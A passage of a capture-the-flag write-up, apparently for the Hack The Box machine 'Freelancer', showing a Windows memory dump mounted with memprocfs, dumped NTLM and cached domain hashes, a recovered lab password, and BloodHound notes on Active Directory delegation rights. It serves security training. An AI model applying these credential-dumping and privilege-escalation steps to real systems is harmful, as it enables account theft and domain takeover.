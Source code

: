 ```
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```
### Gaining Access
- This is windows memory dump so i used the `memprocfs` tool
```shell
rexder@HunterMachine ~/Exploit> sudo ./memprocfs -device ~/CTF/HTB/Machines/freelancer/MEMORY.DMP -forensic 1 -license-accept-elastic-license-2-0 -mount /mnt/ctf
[SYMBOL]   Functionality may be limited. Extended debug information disabled.
[SYMBOL]   Partial offline fallback symbols in use.
[SYMBOL]   For additional information use startup option: -loglevel symbol:4
[SYMBOL]   Reason: Unable to download kernel symbols to cache from Symbol Server.

Initialized 64-bit Windows 10.0.17763
[PLUGIN]   Python plugin manager failed to load.

==============================  MemProcFS  ==============================
 - Author:           Ulf Frisk - pcileech@frizk.net
 - Info:             https://github.com/ufrisk/MemProcFS
 - Discord:          https://discord.gg/pcileech
 - License:          GNU Affero General Public License v3.0
   ---------------------------------------------------------------------
   MemProcFS is free open source software. If you find it useful please
   become a sponsor at: https://github.com/sponsors/ufrisk Thank You :)
   ---------------------------------------------------------------------
 - Version:          5.9.16 (Linux)
 - Mount Point:      /mnt/ctf
 - Tag:              17763_a3431de6
 - Operating System: Windows 10.0.17763 (X64)
==========================================================================

[FORENSIC] Forensic mode completed in 22s
```
- using secrets dump i extracted the hash
![](https://i.imgur.com/5kJnaBG.png)

```shell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361: (2023-10-04 12:55:34)
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1: (2023-10-04 12:29:00)
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679: (2023-10-04 17:31:23)
```
- ` lorra199 : PWN3D#l0rr@Armessa199 `
![](https://i.imgur.com/8WKf9dq.png)
- It is on the AD Recycle group so we can get the deleted things
	- ![](https://i.imgur.com/krJa0RI.png)
- But there is nothing to look for so when i check back to my bloodhound. i saw that the ad recycle is generic write on the dc also there is a delegations on the group. so the user `lorra199` have this permissions.
	- ![](https://i.imgur.com/MWe2fJn.png)